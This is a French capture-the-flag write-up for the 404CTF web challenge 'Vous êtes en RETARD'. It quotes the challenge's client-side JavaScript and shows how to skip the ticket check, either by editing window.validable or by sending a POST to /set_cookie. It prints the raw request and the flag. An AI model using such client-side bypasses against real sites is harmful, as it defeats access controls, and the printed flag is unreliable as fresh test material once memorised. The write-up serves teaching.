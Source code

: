 # Vous êtes en RETARD
## Enoncé
> Vous voilà devant le stade pour voir le dernier match de votre équipe préférée, le Gorfou FC !
> Malheureusement, vous êtes arrivé.e en retard et l'entrée est fermée... Mais pas de panique, il vous suffit de trouver un moyen pour quand même rentrer !

Auteur: **@Asumamusa**
 
Connexion: `https://en-retard.challenges.404ctf.fr`

## Analyse

On arrive directement sur une page vierge avec un panneau nous signalant une interdiction

<p align="center">
    <img src="../images/404CTFWeb1.png" alt="img1" style="width:40%;">
</p>

En inspectant le code source on tombe sur un script js intéressant:
```javascript
setInterval(function() {
    var panneau = document.querySelector('.panneau');
    var barre = document.querySelector('.barre-en-fer');
    if (!panneau && barre) {
        barre.remove();
    }
}, 100);

document.querySelector('.entrer-dans-le-stade').addEventListener('click', function() {
    window.location.href = '/donnez-moi-mon-ticket-pitie';
});

window.onload = function() {
    var cookies = document.cookie.split('; ');
    var fraudeur = cookies.find(row => row.startsWith('fraude='));

    if (fraudeur && fraudeur.split('=')[1] === 'true') {
        var zoneTexte = document.querySelector('.zone-texte');
        zoneTexte.textContent = 'Vous avez essayé de frauder, mais le vigile vous a aperçu et vous a ramené à l\'entrée...';
        zoneTexte.style.display = 'block';
    }
};
```
On se rend sur le chemin `/donnez-moi-mon-ticket-pitie` et on trouve encore une fois un nouveau script js:
```javascript
var bouton = document.querySelector('.valider-billet');
var billet = document.querySelector('.billet');
window.validable = [];
bouton.addEventListener('click', function() {
    if (window.validable.includes(billet.id)) {
        fetch('/set_cookie', {method: 'POST'}).then(function() {
            window.location.href = "/devant-le-match";
        });
    } else {
        alert('Billet non validé');
    }
});

## Exploitation
```
On peut alors soit modifier la variable `window.validable` pour y inclue un id, soit directement faire une requête POST au chemin `/set_cookie`.
```http
POST /set_cookie HTTP/2
Host: en-retard.challenges.404ctf.fr
Sec-Ch-Ua: "Not-A.Brand";v="99", "Chromium";v="124"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
```

Le flag est reçu sous forme de cookie en clair `allergies=404CTF{gluten-sucre-au-sucre}`

Flag: **404CTF{gluten-sucre-au-sucre}**